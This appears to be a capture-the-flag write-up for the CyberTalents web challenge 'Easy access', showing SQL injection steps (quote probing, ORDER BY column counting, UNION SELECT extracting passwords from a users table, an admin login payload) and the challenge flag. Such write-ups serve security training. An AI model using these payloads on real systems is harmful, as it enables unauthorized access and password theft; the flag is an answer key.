 # CyberTalents
## Web Security

### Challenge Name:
 [*Easy access*](https://cybertalents.com/challenges/web/easy-access)
 
### Challenge Description
Only superpower makes you see unlimited view.


Link: [http://ec2-35-158-236-11.eu-central-1.compute.amazonaws.com/easy-access/](http://ec2-35-158-236-11.eu-central-1.compute.amazonaws.com/easy-access/)

### Answer
* First we try inject (') to know database version and see if the character was filterd or not.
* Now try use order clause to know how many columns (Try until you reach number of columns don't make syntax error)
```sql
10' ORDER BY 10-- -
```
* Now we are ready to use Union in query
```sql
1' UNION ALL SELECT Password,1,1,2,1 FROM users-- -
```
* He will notice you that you should login as admin to see the flag so
```sql
admin' UNION ALL SELECT Password,1,1,1,1 FROM users-- -
```
* You got the Flag!!


### The Flag
 > flag{!njection_3v3ry_wh3r3} 

